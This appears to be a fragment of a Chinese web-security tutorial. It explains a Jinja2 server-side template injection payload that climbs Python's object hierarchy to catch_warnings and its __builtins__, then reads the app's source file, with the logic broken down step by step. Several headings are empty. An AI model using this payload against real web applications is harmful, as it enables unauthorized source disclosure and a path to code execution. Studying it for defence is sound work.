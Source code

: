 
#### 第二步：

---


---


---


## 三、示例：

> 
<h3>3.1、payload</h3>
{% for c in [].__class__.__base__.__subclasses__() %}{% if c.__name__=='catch_warnings' %}{{ c.__init__.__globals__['__builtins__'].open('app.py','r').read()}}{% endif %}{% endfor %}
<hr/>
<h4>第一个{%  %}</h4>
[].__class__#返回的是[]的类型list为列表
list.__base__#返回list的一个父类为object是所有类的基类所有类都是继承自object
object.__subclasses__()#返回object的所有子类所有继承自object的类
<hr/>
<h4>第二个{%  %}</h4>
循环遍历类寻找catch_warnings这个类进入该类
<hr/>
<h4>第三个{%  %}</h4>
c.__init__#表示c类中的init这个内置方法
__init__.__globals__['__builtins__']#返回init这个方法可以使用的类、方法、以及属性当中的__builtins__
__builtins__#表示内建方法因为这里所使用的open是一个内建方法利用open打开源码调用read读取


---


#### 第二个{%  %}
